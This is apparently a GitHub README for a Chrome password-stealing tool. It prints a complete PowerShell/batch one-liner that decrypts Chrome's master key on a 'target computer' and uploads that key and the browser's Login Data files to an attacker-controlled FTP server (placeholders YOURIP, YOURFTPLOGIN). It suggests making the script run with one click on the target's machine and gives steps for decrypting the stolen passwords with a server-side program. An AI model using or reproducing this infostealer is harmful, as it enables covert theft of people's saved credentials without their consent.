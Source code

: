 # ChromePasswordDecryptionWithPS
Sending the Login Data files along with the unique byte sequence needed to decode the passwords to a FTP server. Then, decrypt those files on the server side.

HOW TO USE:
  1. Download the "chrSender.ps1" file and edit the ftp server address and ftp server credentials (these appear twice in the code make sure to edit both)
  2. Run this on the target computer (make sure your ftp server is running so it can receive the information)  
      - You can also change this ps1 file into a batch file so it can run on the target's computer with one click, this can be done like this:  
        ```
        @echo off  
        set test5=$fileLoc = $env:LOCALAPPDATA + '\Google\Chrome\User Data\Local State';$TempFile3 = New-TemporaryFile;Copy-Item $fileLoc -Destination $TempFile3;$fileCont = Get-Content $TempFile3;$x = $fileCont ^^^| ConvertFrom-Json;$key = $x.os_crypt.encrypted_key;Add-Type -AssemblyName System.Security;$befbase = [System.Convert]::FromBase64String($key);$befbase = $befbase[5..($befbase.Length-1)];$clearPWD_ByteArray = [System.Security.Cryptography.ProtectedData]::Unprotect( $befbase, $null, [System.Security.Cryptography.DataProtectionScope]::CurrentUser );$TempFile = New-TemporaryFile;Set-Content $TempFile -Value $clearPWD_ByteArray -Encoding Byte;$foldPar = $env:LOCALAPPDATA + '\Google\Chrome\User Data';$chF = Get-ChildItem -Path $foldPar -Filter 'Login Data' -Recurse -ErrorAction SilentlyContinue -Force -Name;$overallNum = (Get-Random -Minimum 10000000 -Maximum 99999999);$ftp = [System.Net.FtpWebRequest]::Create(('ftp://YOURIP/' + 'k_' + $overallNum + '.dat'));$ftp = [System.Net.FtpWebRequest]$ftp;$ftp.Method = [System.Net.WebRequestMethods+Ftp]::UploadFile;$ftp.Credentials = new-object System.Net.NetworkCredential('YOURFTPLOGIN','YOURFTPPASSWORD');$ftp.UseBinary = $true;$ftp.UsePassive = $true;$content = [System.IO.File]::ReadAllBytes($TempFile);$ftp.ContentLength = $content.Length;$rs = $ftp.GetRequestStream();$rs.Write($content, 0, $content.Length);$rs.Close();$rs.Dispose();$curIt = 0;foreach ($cF in $chF) {$cFLoc = $foldPar + '\' + $cF;$TempFile2 = New-TemporaryFile;Copy-Item $cFLoc -Destination $TempFile2;$ftp = [System.Net.FtpWebRequest]::Create(('ftp://YOURIP/' + 'c' + $curIt + '_' + $overallNum + '.dat'));$ftp = [System.Net.FtpWebRequest]$ftp;$ftp.Method = [System.Net.WebRequestMethods+Ftp]::UploadFile;$ftp.Credentials = new-object System.Net.NetworkCredential('YOURFTPLOGIN','YOURFTPPASSWORD');$ftp.UseBinary = $true;$ftp.UsePassive = $true;$content = [System.IO.File]::ReadAllBytes($TempFile2);$ftp.ContentLength = $content.Length;$rs = $ftp.GetRequestStream();$rs.Write($content, 0, $content.Length);$rs.Close();$rs.Dispose();$curIt = $curIt + 1;}  
        powershell -command %test5%
        ```  
      - ^^^If you copy this code, make sure to change the YOURIP, YOURFTPLOGIN, and YOURFTPPASSWORD sections (which all appear twice in the code)
  3. Once you receive the files on the server side you can decrypt them with the program I included
      - In order to do this, first download "ServerSideDecryptor.exe"
      - Open the command prompt and navigate to the folder where you have the exe saved
      - Structure the command like this in the command prompt:  
        ```
        ServerSideDecryptor.exe "kfile.dat" "c0file.dat" "c1file.dat" "c2file.dat"
        ```
      - You must pass the path of the key (k) file first, then the other chrome login data (c) files next as shown above
        - If any of the chrome login data (c) files are 0 bytes, do not pass them into the command as it will result in an error
      - You can have any number of chrome login data (c) files, it does not matter, it will decrypt every one with the given key. If you have more than the number shown in the command above, then continue to add the paths onto the end of the given command following the same format, and if you have less, only include the paths of the chrome login data (c) files you have
      - An example of this command is:  
        ```
        ServerSideDecryptor.exe "C:\User\Desktop\k_71867785.dat" "C:\User\Desktop\c0_71867785.dat" "C:\User\Desktop\c1_71867785.dat" "C:\User\Desktop\c2_71867785.dat"
        ```
  4. Once you successfully pass in all the arguments and run the command, it will produce a "passesOutput.txt" file in the directory that the "ServerSideDecryptor.exe" is in
